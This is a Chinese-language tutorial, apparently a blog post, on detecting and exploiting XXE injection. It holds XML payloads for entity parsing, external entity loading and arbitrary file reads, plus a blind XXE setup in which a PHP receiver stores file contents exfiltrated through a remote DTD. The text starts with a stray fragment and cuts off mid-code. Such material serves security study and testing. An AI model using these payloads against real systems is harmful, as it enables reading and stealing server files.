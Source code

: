 ```bash
</foo>
```

### XXE漏洞
XXE漏洞全称XML External Entity Injection即xml外部实体注入漏洞，XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等危害。xxe漏洞触发的点往往是可以上传xml文件的位置，没有对上传的xml文件进行过滤，导致可上传恶意xml文件。

#### xxe漏洞检测
第一步检测XML是否会被成功解析：
```bash
<?xml version="1.0" encoding="UTF-8"?>  
<!DOCTYPE ANY [  
<!ENTITY name "my name is nMask">]>    
<root>&name;</root>
```
如果页面输出了my name is nMask，说明xml文件可以被解析。
![](/upload_image/20170620/2.png)

第二步检测服务器是否支持DTD引用外部实体：
```bash
<?xml version=”1.0” encoding=”UTF-8”?>  
<!DOCTYPE ANY [  
<!ENTITY % name SYSTEM "http://localhost/index.html">  
%name;  
]>
```
可通过查看自己服务器上的日志来判断，看目标服务器是否向你的服务器发了一条请求test.xml的请求。
![](/upload_image/20170620/3.png)
如果支持引用外部实体，那么很有可能是存在xxe漏洞的。

#### xxe漏洞利用
xxe漏洞的危害有很多，比如可以文件读取、命令执行、内网端口扫描、攻击内网网站、发起dos攻击等，这里就读取任意文件的利用方式进行测试。
##### 读取任意文件
由于我是在windows上做的测试，因此让其读取c盘下的test.txt文件内容。
![](/upload_image/20170620/4.png)
如果是linux下，可以读取/etc/passwd等目录下敏感数据。

以上任意文件读取能够成功，除了DTD可有引用外部实体外，还取决于有输出信息，即有回显。那么如果程序没有回显的情况下，该怎么读取文件内容呢？需要使用blind xxe漏洞去利用。

##### blind xxe漏洞
对于传统的XXE来说，要求攻击者只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，如果没有回显则可以使用Blind XXE漏洞来构建一条带外信道提取数据。

创建test.php写入以下内容：
```bash
<?php  
file_put_contents("test.txt", $_GET['file']) ;  
?>
```
创建index.php写入以下内容：
```bash
<?php  
$xml=<<<EOF  
<?xml version="1.0"?>  
<!DOCTYPE ANY[  
<!ENTITY % file SYSTEM "file:///C:/test.txt">  
<!ENTITY % remote SYSTEM "http://localhost/test.xml">  
%remote;
%all;
%send;  
]>  
EOF;  
$data = simplexml_load_string($xml) ;  
echo "<pre>" ;  
print_r($data) ;  
```